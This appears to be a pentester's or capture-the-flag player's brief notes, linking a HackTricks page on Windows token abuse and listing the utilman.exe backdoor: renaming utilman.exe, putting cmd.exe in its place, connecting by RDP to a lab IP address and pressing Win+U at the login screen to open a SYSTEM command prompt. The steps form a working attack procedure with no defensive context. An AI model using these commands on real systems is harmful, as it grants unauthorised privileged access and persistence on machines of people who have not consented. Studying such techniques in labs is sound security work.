 [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens](#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)


-  cd C:\\Windows\\System32
-  ren utilman\.exe utilman\.old
-  ren cmd\.exe utilman\.exe
-  rdp 192\.168\.209\.165
-  WIN \+ u  -  opens cmd\.exe 